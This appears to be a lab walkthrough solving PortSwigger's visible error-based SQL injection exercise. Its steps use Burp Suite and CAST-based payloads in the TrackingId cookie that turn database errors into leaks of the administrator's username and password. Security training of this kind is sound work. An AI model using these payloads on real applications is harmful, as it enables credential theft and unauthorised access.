









[Source](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)
## Task
This lab has a SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query containing the value of the sent cookie. No results are returned from the SQL query.

There is another table in the database called `users` containing `username` and `password` columns. To solve this task, we must find a way to leak the password of the `administrator` user and log into his account.
## Solution
Go to the website page


Refresh the page, intercept the request via `Burp Suite` and send it to `Repeater`



Add the `'` sign to `TrackingId` and send the request. We see an error
```ERROR
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1''. Expected char
```



It is clear that in this case we enter a string with one quote inside the `WHERE` operator. This makes it easier to create a valid query containing a malicious payload. If you comment out the rest of the query, the extra single quote will not break the syntax.
```Request
TrackingId=9P3Sf8MjAMamuhn1'--
```



There is no more error. Let's create another SQL query
```SQL
' AND CAST((SELECT 1) AS int)--
```
We send it and see a different error
```ERROR
ERROR: argument of AND must be type boolean, not type integer. Position: 63
```


Let's change the query so that this error does not occur
```SQL
' AND 1=CAST((SELECT 1) AS int)--
```



We have verified that this query works. Now let's try to pull `username` from the `users` table
```SQL
' AND 1=CAST((SELECT username FROM users) AS int)--
```



We get another error
```ERROR
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1' AND 1=CAST((SELECT username FROM users) AS'. Expected char
```
This happens because we exceeded the character limit in the query. To bypass it, we delete the entire `TrackerId`


A new error
```ERROR
ERROR: more than one row returned by a subquery used as an expression
```
The query turned out to be correct and we guessed that there is a `users` table and a `username` column in it. The error is thrown by the database itself, since it unexpectedly returned more than one row. Let's tweak the query a little:
```SQL
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



A new error has appeared. But note that this error shows the administrator's `username`.
``ERROR
ERROR: invalid input syntax for type integer: "administrator"
```
Since we know that `administrator` is the first in the `users` table, we will output his password.
```SQL
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```



Administrator password:
```Password
qbcneltqjs6bnijkbwgf
```





